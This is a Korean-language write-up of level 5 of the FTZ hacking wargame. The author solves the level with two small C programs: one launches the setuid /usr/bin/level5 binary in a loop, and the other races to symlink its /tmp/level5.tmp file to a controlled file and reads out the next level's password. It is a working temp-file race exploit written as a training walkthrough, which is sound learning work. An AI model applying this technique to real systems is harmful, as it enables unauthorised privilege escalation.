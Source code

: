 ```yaml
---
title: FTZ 5번 Write-up
date: 2017-8-22 11:9:00
categories: FTZ
---
```


## FTZ 5번

이건 딱봐도 풀기 싫게 생겼다.

    [level5@ftz level5]$ ls
    hint  public_html  tmp
    [level5@ftz level5]$ cat hint
    
    /usr/bin/level5 프로그램은 /tmp 디렉토리에
    level5.tmp 라는 이름의 임시파일을 생성한다.
    
    이를 이용하여 level6의 권한을 얻어라.

`/usr/bin/level5`의 프로그램은 실행중일때만 `level5.tmp`라는 임시파일을 생성하고, 종료될경우, 임시파일은 바로 삭제된다.

    [level5@ftz level5]$ cd /tmp
    [level5@ftz tmp]$ ls
    mysql.sock
    [level5@ftz tmp]$ vi script.c
    int main(){
            int i;
            for(i=0;i<200000;i++){
                    system("/usr/bin/level5 &");
            }
    }
    [level5@ftz tmp]$ gcc -o script script.c

	[level5@ftz tmp]$ vi script1.c
    #include<stdio.h>
    int main(){
            int i=0;
            system("touch /tmp/level5.code");
            for(i=0;i<200;i++){
                    system("ln -s /tmp/level5.code /tmp/level5.tmp 2>/dev/null");
            }
            system("cat /tmp/level5.code");
    }
    [level5@ftz tmp]$ gcc -o script1 script1.c

이렇게 `/usr/bin/level5`를 계속 실행시키는 script 프로그램과 `/usr/bin/level5`가 실행되는 동안 `/tmp/level5.tm`p에 심볼릭 링크를 걸어주고, 마지막에 임시파일, 즉 플래그를 출력하도록 하는 script1 프로그램을 짜 보았습니다.

    [level5@ftz tmp]$ ./script &
    [1] 27505

`./script` 뒤에 `&`을 붙이면 백그라운드에서 실행하도록 해준다.
아래줄에 있는 5자리 수는 프로세스 번호로, `kill 27505`를 입력하면 script프로그램을 종료할 수 있습니다.

    [level5@ftz tmp]$ ./script1
    next password : what the hell

나왔네요.

